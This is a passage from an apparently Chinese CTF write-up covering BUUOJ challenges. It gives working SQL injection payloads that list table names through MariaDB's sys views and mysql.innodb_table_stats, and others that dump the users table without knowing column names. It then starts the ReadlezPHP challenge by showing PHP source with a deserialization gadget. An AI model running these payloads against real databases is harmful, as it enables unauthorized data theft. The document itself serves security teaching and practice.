 ```sql
select group_concat(table_name) from sys.schema_auto_increment_columns where table_schema=database();

select group_concat(table_name) from  sys.schema_table_statistics_with_buffer where table_schema=database();

select group_concat(table_name) from sys.x$schema_table_statistics where table_schema=database();

select group_concat(table_name) from sys.x$ps_schema_table_statistics_io where table_schema=database();
```

题目数据库版本是 `10.2.26-MariaDB-log`, mariadb 和 mysql 的版本对照有点奇妙...

能通过 InnoDB 表读取表名, 但是用不了 sys 库

```sql
'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208291220400.png)

**无列名注入**

方法很多, 这里以子查询为例

```sql
'/**/union/**/select/**/1,(select/**/group_concat(c.1,',',c.2,',',c.3)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)c),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208291528403.png)

## [NPUCTF2020]ReadlezPHP

```
http://a0ae0eac-51a7-4651-b3c4-88dcc4955b1e.node4.buuoj.cn:81/time.php?source
```

time.php

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

```